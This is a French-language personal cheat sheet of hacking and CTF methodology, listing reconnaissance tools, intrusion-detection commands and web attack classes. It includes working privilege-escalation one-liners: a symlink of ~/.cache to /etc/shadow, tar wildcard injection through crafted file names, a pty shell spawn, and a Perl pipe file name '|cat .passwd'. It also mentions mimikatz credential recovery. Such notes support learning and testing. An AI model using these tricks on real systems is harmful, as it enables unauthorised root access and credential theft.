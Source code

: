 <head>
  <meta http-equiv="content-type" content="text/html; charset=utf-8" />
  <title>Methode - hacking</title>
</head>
[index](index.html)

## Hacking machines

### Utilisation de Kali

- Installer une full pour avoir metasploit
- Les wordlists sont dans /usr/share/wordlists

### Découverte environnement

- robots.txt
- Fingerprinting : $ whatweb -v -a 3 192.168.0.xxx
- Recherche de répertoires existant: nikto ou simplement wfuzz: $wfuzz --hc 404 -w wordlist http://www.cible.com/FUZZ

### Recherche vulnerabilités


- Banner grabbing: $nc [ip] [port] : ex donne info sur serveur web.
- NeXpose (Rapid7), possibilite de sauver le report en xml pour relecture dans msf. Il existe aussi plugin "nexpose" pour msf.
- Nessus (Tenable Security). Il existe aussi plugin "nessus" pour msf.
- OpenVAS : Fork Open Source de Nessus (qui est devenu close) - Installé sur https://127.0.0.1:9392. Se paramètre via openvasmd, par exemple pour reinit le password d'admin:
    $ openvasmd --user=admin --new-password=letmein. Il y a aussi plusieurs outils d'admin comme openvas-check-setup, openvas-setup...
    
  Pour lancer un scan depuis l'interface : Menu Scans / tasks. Clicker sur l'icone violette avec une baguette "task wizard" et entre l'url à scanner

### Détection intrusion

- who et w : utilisateurs connectés
- last : dernières connexions
- lastb : derniers echecs de connexion
- /var/log/auth.log : plus complet sur différents moyens de connexion
- history : historique des commandes de l'utilisateur
- ac (package acct) avec l'option "-dp" : temps de connexion de chaque utilisateur
- lastcomm (package acct) : dernières commandes exécutées sur le système
- netstat (-t,-u,-p,-l,-a,-n) : ports réseaux du système
- lsof : liste des ressources (files, pipes...) en cours d'utilisation...). Option -p pour filtrer sur un processus, -u pour un user
- Vérifier aussi crontab


### [Metasploit](hacking-metasploit.html)

### Wargame - Elevation de privilege

## Generalités

- Consulter http://exploit-db.com, http://cve.mitre.org, http://cert.ssi.gouv.fr ou encore http://www.cvedetails.com (requetable automatiquement).
- Consulter /etc/sudoers (dès fois que ça fonctionne) et $crontab -l pour voir s'il y a des taches planifiées à exploiter
- Pour faire un sudo ou su, il demande parfois à être dans un terminal, ce qui ne fonctionne pas avec tous les webshells. Il suffit parfois de lancer :
$ python -c 'import pty;pty.spawn("/bin/sh")'


## Ubuntu non patche (versions 9.10 et 10.04):
$rm -rf ~/.cache
$ln -s /etc/shadow ~/.cache
$ssh localhost

Vous voila propriétaire du fichier /etc/shadow !

## Execution de commandes détournées (exploit suid)
- S'il y a un "tar cvf *" par exemple, il est possible de passer des arguments sous forme de nom de fichiers. Notamment en créants des fichiers appelés --checkpoint=1 --checkpoint-action=exec=sh shell.sh et shell.sh.

### Exploit windows

L'utilisation de mimikatz permet de retrouver des credentials, par exemple à partir d'un dump mémoire

## Hacking web

### Recherche de vulnerabilités
- DirBuster : projet owasp (arrêté) pour bruteforcer l'arborescence d'un site web. Remplacé par ZAP
- Owasp ZAP (Zed Attack Proxy) - Recherche de vulns sur un site web
- BurpSuite : suite d'outils (proxy web, ...)
- Wapiti, nikto...
- Pour rechercher les répertoires classiques : $dirb http://challenge01.root-me.org/realiste/ch7/ /usr/share/dirb/wordlists/common.txt

### Les attaques
- Regarder le source généré (CTRL+U sur Firefox)
- Regarder les autres fichiers chargés (y.c leur code source, notamment pour js et css)
- Lire le header de retour
- Modification du user-agent ou autres parties header
- Décoder le fonctionnement du javascript
- Tester les user/pwd triviaux. 
- Fichiers backup (~, bak, old, sav)
- Regarder si un fichier robots.txt est présent
- Fichiers autogénérés comme .pyc si site en python
- La présence d'un répertoire de livraison
- La présente du répertoire .git/ ou .svn... ou même /git
- Injection de paramètre : comme dans sqli on peut fermer les apostrophes ou braquets et rajouter d'autre code
- [XSS injection](xss.html)
- XXE : un peu comme XSS mais grace aux entités et aux dtd. A noter qu'on peut faire des XXE permettant d'envoyer le résultat avant la fin de la page.
- XSL : il est possible de faire des choses sympa si on peut modifier le xsl : connaître le moteur xsl et sa version, dans certains cas injecter des commandes, lire des documents choisis (ou en partie), voire même écrire.
- Injection sql (blind, différents moteurs, time attack, tables systèmes)
- Injection xpath (cf sql)
- LFI : upload de fichier (mime, extension, php dans fichier, null byte dans nom) + moyen executer
- Modification du cookie
- Directory indexing/traversing - Essayer de deviner les répertoires
- Fichiers/répertoire d'install
- CRLF : permet de leurrer utilisateur, ou mailer
- Utilisation de fiddler ou wireshark pour voir ce qui est vraiment échangé sur le réseau
- S'il est possible d'uploader des fichiers compressés (ou au moins .tar) qui seront décompressés : mettre un symlink 

### Les attaques PHP
- PHP : register globals (pour les var non initialisées) - vieilles versions
- [PHP wrappers](phpwrappers.html) : affiche contenu des fichiers php...
- Contournement de filtre : la commande chr() peut accepter des valeurs négatives (complément à 256)
- Contournement de filtre : un preg_replace("/^blabla/"...) peut être trompé par une chaîne commençant par un "\n..."
- Passer en argument un array (de type user[]) là où il s'attend à une valeur classique donne parfois des résultats intéressants
- Les conversions implicites sont une source de faille. Les différentes manières d'écrire des nombres (par exemple forme exponentielle 5.14e18) peut rajouter de la confusion en laissant le champ à 2 interprétations selon le contexte 
- $_SERVER['HTTP_HOST'] peut être modifié par le header "Host"

### Les attaques Perl
- On peut utiliser des pipes dans un open de perl, par exemple si on appelle un fichier "|cat .passwd"...

### Les attaques Python
- S'il y a des imports, on peut modifier le $PYTHONPATH pour regarder d'abord dans /tmp par exemple
- Jailbreak : utiliser notamment https://docs.python.org/2/library/inspect.html. Par exemple .func_code, .co_code, .co_consts

### Javascript
- Il existe des deobfuscator online. Il existe aussi le jsfuck, du javascript valide écrit uniquement avec les 18 symboles "[]()!+,\"$.:;_{}~=."
- Il faut parfois faire des replace à la main
- Attention aux conversions implicites en chaîne ou int selon le contexte

### Les outils

#### Créer un serveur web pour ses attaques
- Serveur web avec netcat : while true; do nc -l -p 8080 < index.html; done 
Note: Utiliser en fait nc.traditional au lieu de nc
- Connaitre son ip, par exemple : http://www.monip.org
- Pour rendre un répertoire disponible via le web, lancer dans ce répertoire :  "python -m SimpleHTTPServer [port]"

#### Autres
1. md5sum : Pour générer la somme md5. Ex: echo bob | md5sum

- python -c "import crypt, getpass, pwd; print crypt.crypt('password', '\$6\$salt\$')"
=> pour creer /etc/shadow

- Serveur web avec netcat : while true; do nc -l -p 8080 < index.html; done 
UTILISER EN FAIT nc.traditional au lieu de nc
http://www.monip.org : 82.238.192.170



- Manipuler de l'hexa : xxd et hd

## Hacking imprimantes

Il semble que [PRET](https://github.com/RUB-NDS/PRET) PRinter Exploitation Toolkit (outils pythons) soit pas mal utilisé.


